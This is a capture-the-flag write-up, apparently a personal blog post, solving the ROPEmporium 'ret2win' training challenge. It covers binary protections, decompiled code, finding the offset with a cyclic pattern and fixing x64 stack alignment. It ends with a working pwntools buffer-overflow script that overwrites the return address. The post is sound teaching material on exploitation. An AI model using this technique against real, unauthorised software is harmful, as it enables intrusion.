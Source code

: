 ```yaml
---
toc: true
toc_label: "Table of Contents"
toc_icon: "list"
title: "ROPEmporium: ret2win"
excerpt: "'ret2win' focuses on basic buffer overflow and return address overwriting."
category: "pwn"
---
```

## Preface
Having not practiced binary exploitation in a while, I thought it was a good idea to return to basics and practice solving all the ROPemporium challenges again.
ROPemporium is a set of pwn challenges that teaches you the basics about return-oriented binary exploitation, bringing you from your first ret2win to more advanced attacks.

You can find all the challenges [here](https://ropemporium.com/).

Let's get started!
### File Information
Running the file, we are met with the following:

![Initial Run]({{ site.url }}{{ site.baseurl }}/assets/images/ropemporium/ret2win/initial.png)

From the challenge description and name, it appears to be a simple return to function challenge. Let's check the protections and file info:

![Check Permissions]({{ site.url }}{{ site.baseurl }}/assets/images/ropemporium/ret2win/checksec.png)

No stack canaries, no PIE, and NX is enabled meaning that we won't be able to run shellcode. 
### Decompilation
However, if we open this up in Ghidra or GDB, we can see that there indeed is a 'win' function. In this case, this function directly prints the flag for us, so all we have to do is call it.

```c
void ret2win(void)
{
  puts("Well done! Here\'s your flag:");
  system("/bin/cat flag.txt");
  return;
}
```

The program hints towards us the fact that there is a buffer overflow, which we can verify this by checking the decompilation.

```c
void pwnme(void)
{
  undefined local_28 [32];
  
  memset(local_28,0,0x20);
  read(0,local_28,0x38);
  puts("Thank you!");
  return;
}
```

The program allocates 32 bytes but calls `read()` with 0x38 = 56 bytes, so we know we can overflow the buffer by 24 bytes. This is plenty enough for us to overwrite both the base and return pointer.
### Finding Offset and Address
First, let's find the offset to the return address so we know how much to write. There are multiple ways to do this, but we will use the built-in pwntools cyclic function in order to generate a [de-Bruijn sequence](https://en.wikipedia.org/wiki/De_Bruijn_sequence). Then, we can input this sequence into GDB and wait for the segmentation fault to trigger. This happens because the return address is overwritten with our cyclic input, which is garbage data.

![Segfault]({{ site.url }}{{ site.baseurl }}/assets/images/ropemporium/ret2win/segfault.png)

Notice that we can't directly find the offset using the value inside RIP, because 64-bit binaries will not pop an invalid address into RIP.

Because of this, we will use RBP to calculate the offset instead. Since RBP is 8 bytes below RIP, we can simply add the calculated offset value by 8. We will use `cyclic -l RBP_VAL` to find the offset.

![RBP Offset]({{ site.url }}{{ site.baseurl }}/assets/images/ropemporium/ret2win/rbp_offset.png)

Therefore, our offset is 40 bytes. Now, all we need is to overwrite the return address with the address of `ret2win()`. We can either get this address from GDB or Ghidra. In GDB, we grab the address of the first instruction in the function disassembly.

![ret2win Address]({{ site.url }}{{ site.baseurl }}/assets/images/ropemporium/ret2win/ret2win_addr.png)

Since PIE is not enabled, the function's location will be the same everytime we run it, so we can hardcode this address. We can write up an exploit using pwntools:

```python
from pwn import *

p = process('./ret2win_bin')

payload = b'A'*40
payload += p64(0x400756)

p.sendline(payload)
p.interactive()
```
### Fixing Alignment
When we run this exploit we encounter an odd issue. The program seems to jump to `ret2win` through the printed output, but segfaults before it can print the flag out.

![Early Segfault]({{ site.url }}{{ site.baseurl }}/assets/images/ropemporium/ret2win/error.png)

Due to architecture design choices, x64 requires the stack to be 16-byte aligned before returning to GLIBC functions. Since the `ret2win` function calls `system()`, this means that our stack is out of alignment. To fix this, we can add an additional `ret` instruction to pad the stack by 8 bytes.

In ROP, these instructions are called 'gadgets', and we can find them using numerous different tools. Here, I'll use ROPgadget in order to locate a `ret` instruction.

![Stack Alignment]({{ site.url }}{{ site.baseurl }}/assets/images/ropemporium/ret2win/ret_alignment.png)

Then, we can add this before our `ret2win` address to get a working script!

![Finished Script]({{ site.url }}{{ site.baseurl }}/assets/images/ropemporium/ret2win/done.png)
### Final Script
```python
from pwn import *

p = process('./ret2win_bin')

payload = b'A'*40 # offset to RIP
payload += p64(0x000000000040053e) # MOVAPS alignment
payload += p64(0x400756) # ret2win addr

p.sendline(payload)
p.interactive()
```